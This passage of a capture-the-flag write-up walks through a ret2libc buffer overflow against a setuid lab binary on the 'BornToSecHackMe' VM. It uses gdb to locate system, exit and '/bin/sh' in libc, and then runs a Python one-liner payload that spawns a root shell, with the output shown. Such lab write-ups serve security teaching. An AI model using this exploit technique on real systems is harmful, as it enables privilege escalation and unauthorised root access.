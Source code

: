 `0x37654136` gives us an offset of 140

## Find addresses

Next we find the addresses of the `system` and `exit` function, along with the `/bin/sh` string

```bash
zaz@BornToSecHackMe:~$ gdb -q ./exploit_me 
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me 

Breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) i proc map
process 4544
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
	 0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.

```

The address for system is `0xb7e6b060`, for exit it's `0xb7e5ebe0` and the address for /bin/sh is `0xb7f8cc58`

## Exploiting

Now we have all the elements necessary for a ret2libc so let's do it !

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'import struct;print(b"A"*140 + struct.pack("<I",0xb7e6b060) + struct.pack("<I",0xb7e5ebe0) + struct.pack("<I",0xb7f8cc58))')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X���
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

